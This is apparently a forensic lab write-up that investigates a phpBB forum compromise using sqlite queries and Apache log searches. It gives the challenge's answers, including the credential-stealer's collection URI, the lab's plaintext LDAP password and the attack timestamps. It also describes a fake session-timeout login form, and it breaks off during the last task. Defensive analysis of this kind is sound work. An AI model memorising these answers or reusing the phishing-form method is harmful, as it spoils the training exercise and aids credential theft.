---
tags:
  - sherlock
  - dfir
difficulty: Easy
status: Completed
date: 04:33 pm - October 08, 2026
---

# Bumblebee


# Background
## Scenario

>An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.


## Analysis

### Data

This lab provides a single file, **incident.tgz**, inside the bumblebee.zip:



incident.tgz contains:



Once extracted, I observed that the sqlite database contained a large number of tables:



I also observed that the access.log looked like a standard Apache log:



Now I could start the investigation.

### Q & A

#### Task 1

***What was the username of the external contractor?***

Since I had noticed some tables with "users" in the filename in the sqlite database as seen in the screenshot earlier, I suspected that the username I was after could be located in one of those tables.

In consequence, I firstly tried to read the phpbb_users table.

But even with the column and headers settings on, the content was practically unreadable.



Then I had to investigate the structure:

```sql
sqlite> .schema phpbb_users
CREATE TABLE `phpbb_users` (
  `user_id` integer  NOT NULL PRIMARY KEY AUTOINCREMENT
,  `user_type` integer NOT NULL DEFAULT 0
,  `group_id` integer  NOT NULL DEFAULT 3
,  `user_permissions` mediumtext NOT NULL
,  `user_perm_from` integer  NOT NULL DEFAULT 0
,  `user_ip` varchar(40) NOT NULL DEFAULT ''
,  `user_regdate` integer  NOT NULL DEFAULT 0
,  `username` varchar(255) NOT NULL DEFAULT ''
,  `username_clean` varchar(255) NOT NULL DEFAULT ''
,  `user_password` varchar(255) NOT NULL DEFAULT ''
,  `user_passchg` integer  NOT NULL DEFAULT 0
,  `user_email` varchar(100) NOT NULL DEFAULT ''
,  `user_email_hash` integer NOT NULL DEFAULT 0
,  `user_birthday` varchar(10) NOT NULL DEFAULT ''
,  `user_lastvisit` integer  NOT NULL DEFAULT 0
,  `user_lastmark` integer  NOT NULL DEFAULT 0
,  `user_lastpost_time` integer  NOT NULL DEFAULT 0
,  `user_lastpage` varchar(200) NOT NULL DEFAULT ''
,  `user_last_confirm_key` varchar(10) NOT NULL DEFAULT ''
,  `user_last_search` integer  NOT NULL DEFAULT 0
,  `user_warnings` integer NOT NULL DEFAULT 0
,  `user_last_warning` integer  NOT NULL DEFAULT 0
,  `user_login_attempts` integer NOT NULL DEFAULT 0
,  `user_inactive_reason` integer NOT NULL DEFAULT 0
,  `user_inactive_time` integer  NOT NULL DEFAULT 0
,  `user_posts` integer  NOT NULL DEFAULT 0
,  `user_lang` varchar(30) NOT NULL DEFAULT ''
,  `user_timezone` varchar(100) NOT NULL DEFAULT ''
,  `user_dateformat` varchar(64) NOT NULL DEFAULT 'd M Y H:i'
,  `user_style` integer  NOT NULL DEFAULT 0
,  `user_rank` integer  NOT NULL DEFAULT 0
,  `user_colour` varchar(6) NOT NULL DEFAULT ''
,  `user_new_privmsg` integer NOT NULL DEFAULT 0
,  `user_unread_privmsg` integer NOT NULL DEFAULT 0
,  `user_last_privmsg` integer  NOT NULL DEFAULT 0
,  `user_message_rules` integer  NOT NULL DEFAULT 0
,  `user_full_folder` integer NOT NULL DEFAULT -3
,  `user_emailtime` integer  NOT NULL DEFAULT 0
,  `user_topic_show_days` integer  NOT NULL DEFAULT 0
,  `user_topic_sortby_type` varchar(1) NOT NULL DEFAULT 't'
,  `user_topic_sortby_dir` varchar(1) NOT NULL DEFAULT 'd'
,  `user_post_show_days` integer  NOT NULL DEFAULT 0
,  `user_post_sortby_type` varchar(1) NOT NULL DEFAULT 't'
,  `user_post_sortby_dir` varchar(1) NOT NULL DEFAULT 'a'
,  `user_notify` integer  NOT NULL DEFAULT 0
,  `user_notify_pm` integer  NOT NULL DEFAULT 1
,  `user_notify_type` integer NOT NULL DEFAULT 0
,  `user_allow_pm` integer  NOT NULL DEFAULT 1
,  `user_allow_viewonline` integer  NOT NULL DEFAULT 1
,  `user_allow_viewemail` integer  NOT NULL DEFAULT 1
,  `user_allow_massemail` integer  NOT NULL DEFAULT 1
,  `user_options` integer  NOT NULL DEFAULT 230271
,  `user_avatar` varchar(255) NOT NULL DEFAULT ''
,  `user_avatar_type` varchar(255) NOT NULL DEFAULT ''
,  `user_avatar_width` integer  NOT NULL DEFAULT 0
,  `user_avatar_height` integer  NOT NULL DEFAULT 0
,  `user_sig` mediumtext NOT NULL
,  `user_sig_bbcode_uid` varchar(8) NOT NULL DEFAULT ''
,  `user_sig_bbcode_bitfield` varchar(255) NOT NULL DEFAULT ''
,  `user_jabber` varchar(255) NOT NULL DEFAULT ''
,  `user_actkey` varchar(32) NOT NULL DEFAULT ''
,  `user_newpasswd` varchar(255) NOT NULL DEFAULT ''
,  `user_form_salt` varchar(32) NOT NULL DEFAULT ''
,  `user_new` integer  NOT NULL DEFAULT 1
,  `user_reminded` integer NOT NULL DEFAULT 0
,  `user_reminded_time` integer  NOT NULL DEFAULT 0
,  UNIQUE (`username_clean`)
);
CREATE INDEX "idx_phpbb_users_user_birthday" ON "phpbb_users" (`user_birthday`);
CREATE INDEX "idx_phpbb_users_user_email_hash" ON "phpbb_users" (`user_email_hash`);
CREATE INDEX "idx_phpbb_users_user_type" ON "phpbb_users" (`user_type`);
sqlite> 
```

It was clear there were a large number of fields unrelated to my search, so I did:

```sql
select user_id, user_type, user_ip, datetime(user_regdate, 'unixepoch'), username from phpbb_users;
```



As seen in the above screenshot, two accounts, *apoole* and *apoole1*, had registered from a different IP. 

Now I had to see which one was the intruder, so I tried querying with `user_lastvisit > 0` because that would show the users that actually had logged in:

```sql
select user_id, user_type, user_ip, datetime(user_regdate, 'unixepoch'), username, user_lastvisit from phpbb_users where user_lastvisit > 0;
```



Once again, and even more clearly than before, I confirmed the username of the external contractor: it was **apoole1**.

#### Task 2

***What IP address did the contractor use to create their account?***

Both accounts came from the same IP, so I checked their registration records:



So, I checked in *phpbb_log*:

```sql
SELECT log_id, log_type, user_id, log_ip,
       datetime(log_time, 'unixepoch') AS log_time,
       log_operation, log_data
FROM phpbb_log;
```



Log 62 showed that the account was added to the `Administrators` group, one minute before a database backup started.

The IP matched the one seen before: **10.10.0.78**.

#### Task 3

***What is the post_id of the malicious post that the contractor made?***

I looked at the database tables again and chose `phpbb_posts` to investigate first:

```sql
sqlite> .schema phpbb_posts 
CREATE TABLE `phpbb_posts` (
  `post_id` integer  NOT NULL PRIMARY KEY AUTOINCREMENT
,  `topic_id` integer  NOT NULL DEFAULT 0
,  `forum_id` integer  NOT NULL DEFAULT 0
,  `poster_id` integer  NOT NULL DEFAULT 0
,  `icon_id` integer  NOT NULL DEFAULT 0
,  `poster_ip` varchar(40) NOT NULL DEFAULT ''
,  `post_time` integer  NOT NULL DEFAULT 0
,  `post_reported` integer  NOT NULL DEFAULT 0
,  `enable_bbcode` integer  NOT NULL DEFAULT 1
,  `enable_smilies` integer  NOT NULL DEFAULT 1
,  `enable_magic_url` integer  NOT NULL DEFAULT 1
,  `enable_sig` integer  NOT NULL DEFAULT 1
,  `post_username` varchar(255) NOT NULL DEFAULT ''
,  `post_subject` varchar(255) NOT NULL DEFAULT ''
,  `post_text` mediumtext NOT NULL
,  `post_checksum` varchar(32) NOT NULL DEFAULT ''
,  `post_attachment` integer  NOT NULL DEFAULT 0
,  `bbcode_bitfield` varchar(255) NOT NULL DEFAULT ''
,  `bbcode_uid` varchar(8) NOT NULL DEFAULT ''
,  `post_postcount` integer  NOT NULL DEFAULT 1
,  `post_edit_time` integer  NOT NULL DEFAULT 0
,  `post_edit_reason` varchar(255) NOT NULL DEFAULT ''
,  `post_edit_user` integer  NOT NULL DEFAULT 0
,  `post_edit_count` integer  NOT NULL DEFAULT 0
,  `post_edit_locked` integer  NOT NULL DEFAULT 0
,  `post_visibility` integer NOT NULL DEFAULT 0
,  `post_delete_time` integer  NOT NULL DEFAULT 0
,  `post_delete_reason` varchar(255) NOT NULL DEFAULT ''
,  `post_delete_user` integer  NOT NULL DEFAULT 0
);
```

Since `poster_id` should match the `user_id` that made the post, I took ID 52, which corresponded to the username *apoole1*, as previously seen, and queried:



The ID was: **9**.

#### Task 4

***What is the full URI that the credential stealer sends its data to?***

I tried reading the post's text, but it appeared truncated in the console, so I checked the actual length of the post_text:



Now I knew it was a long text, almost 12000 characters. I exited the sqlite3 menu, and executed:

```sql
┌──(kali㉿hilo)-[~/HTB-Bumblebee/bumblebee-evidence/incident]
└─$ sqlite3 -noheader phpbb.sqlite3 \ 
"SELECT post_text FROM phpbb_posts WHERE poster_id=52;" > post.txt

┌──(kali㉿hilo)-[~/HTB-Bumblebee/bumblebee-evidence/incident]
└─$ wc -c post.txt 
11817 post.txt
```

Now I had the whole text in post.txt. But just to further confirm the correct length of my output, I used:

```python
python3 -c "s=open('post.txt',encoding='utf-8').read(); print(len(s), len(s.rstrip('\n')))"
```



When using the above command, the second number expresses the number of characters in the file (excluding the trailing newline). It returned 11812, which matched the previously seen length.

Now I had the suspicious text in my own .txt, but not formatted. And since it could contain potentially harmful code, I didn't even try to read it in a browser. Instead I just used the `tidy` and `bat` tools and read it in my console:

```bash
tidy -quiet -indent -wrap 100 post.txt 2>/dev/null | batcat --language html --paging always
```

I looked for "action", since in HTML `action` specifies where the form sends its data when the user submits it.



The second `action` attribute in the HTML code specifies the destination URI. Combined with target="hiddenframe", which submits the form through a hidden iframe, this suggests that the HTML contains a disguised login form presented to the user as a response to a fake session timeout.

The URI is: http://10.10.0.78/update.php.

#### Task 5

***When did the contractor log into the forum as the administrator? (UTC)***

For this question, investigating the `access.log`  made the most sense:

I used grep to filter for only the IP `10.10.0.78`:

```bash
grep -n '10.10.0.78' access.log | less -S
```

Then, I searched for /adm, which led me to the first admin login:



The date and time of this event was: **26/04/2023 10:53:12** (UTC).

#### Task 6

***In the forum there are plaintext credentials for the LDAP connection, what is the password?***

LDAP stands for Lightweight Directory Access Protocol. An LDAP connection is a connection to a directory service used to store and manage information about users, groups, computers, and permissions across an environment.

I investigated the `phpbb_forums` table, but no useful info was there. Then, I decided to look in `phpbb_config`:

```sql
.schema phpbb_config
CREATE TABLE `phpbb_config` (
  `config_name` varchar(255) NOT NULL DEFAULT ''
,  `config_value` varchar(255) NOT NULL DEFAULT ''
,  `is_dynamic` integer  NOT NULL DEFAULT 0
,  PRIMARY KEY (`config_name`)
);
```



The table stored phpBB configuration settings as key-value pairs (config_name, config_value). 

Then, I filtered for any `config_name` where *ldap* appeared:



There, the requested password is: **Passw0rd1**

#### Task 7

***What is the user agent of the Administrator user?***

As seen in the first question's answer, the admin IP was: 



I used grep once again in the access.log, but with the admin's IP:

```bash
grep -n '10.255.254.2' access.log | less -S
```

In the logs, the user agent was clear:

```bash
37:10.255.254.2 - - [25/Apr/2023:12:08:42 +0100] "GET /adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=12 HTTP/1.1" 403 9412 "http://10.10.0.27/adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

The Administrator's user agent was: **Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36**


#### Task 8

***What time did the contractor add themselves to the Administrator group? (UTC)***

As seen before, the contractor adding himself to the Administrators group happened at: 
**26/04/2023 10:53:51**



#### Task 9

***What time did the contractor download the database backup? (UTC)***

For this question, the access.log was all that was needed. As seen earlier, it was on April 26th that the contractor first logged in as an admin. Knowing this, I refined the command to:

```bash
grep '10.10.0.78' access.log | grep '26/Apr' | grep -v -e 'GET /styles' -e 'GET /adm/images' -e 'GET /assets' | cut -d '"' -f1-3 | less -S
```

When in the access.log, I filtered for keywords like `sql` and quickly found the answer:

